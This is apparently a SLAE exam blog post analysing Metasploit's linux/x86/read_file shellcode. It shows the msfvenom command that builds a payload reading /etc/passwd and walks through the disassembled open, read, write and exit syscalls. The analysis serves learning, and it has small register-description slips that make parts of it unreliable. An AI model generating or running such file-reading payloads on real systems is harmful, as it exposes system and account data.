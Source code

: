 ```yaml
---
layout: post
title:  "SLAE x86 Exam - Assignment 5 - Part 3"
categories: certs slae 
---
```



## Assignment #5 - Analyzing shellcode
_Student ID: **PA-7854**_

In this third and last part, we will analize the next Metasploit's payload: *linux/x86/read_file*.

The code is available at [my github repo](https://github.com/0xKiewicz/SLAE).

#### linux/x86/read_file
We will generate the payload with `msfvenom` as follows:

```bash
# msfvenom -p linux/x86/read_file PATH=/etc/passwd --platform linux -a x86 -f raw -o /tmp/readfile-pwd.txt
No encoder or badchars specified, outputting raw payload
Payload size: 73 bytes
Saved as: /tmp/readfile-pwd.txt
```

Running it with no other parameters, FD defaults to 1 which is `stdout`, to read file and print content on screen. 

We dissect the generated file with `ndisasm`:
```nasm
# ndisasm -u /tmp/readfile-pwd.txt
00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

Since there are a few syscalls, as we can see the multiple `int 0x80` instructions, I will analyze and explain it by blocks of `interrupts`.
```nasm
00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
```
First instruction jumps to address `0x38` which is a `call 0x2` instruction, so basically this is a technique called `JMP-CALL-POP`, since after a `call` instruction is executed the next instruction's address is saved, then we `pop` that saved value, in this case into EBX (third line, address 0x7).
Number `0x5` on second line, `mov eax, 0x5`, refers to the `open` syscall.

Do you ask what was saved in memory? Again, we convert from hex to string and we can discover it:
```bash
# echo 2f6574632f706173737764 | xxd -r -p
/etc/passwd
```

`/etc/passwd` was the value we set for FILE parameter, so it's the file being opened.

Let's move forward.
```nasm
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
```

This block refers to the `read` syscall (0x3), as we can see from the EAX register. This function signature is as follows:
```c
ssize_t read(int fd, void *buf, size_t count);
```
As we know, first parameter is referred by EBX (0x5), second parameter by ECX, which is pointing to EDI that holds the file to be read (`/etc/passwd`), and third parameter by EDX which is the length, 4096 bytes (0x1000).

```nasm
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
```

This is the `write` syscall (0x4), which the signature is similar to the previous one:
```c
ssize_t write(int fd, const void *buf, size_t count);
```
It basically, writes the contents of the file to the screen as EBX has the value 0x1 which stands for `stdout`.

```nasm
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
```

This code block is the `exit` syscall, to do it gracefully.



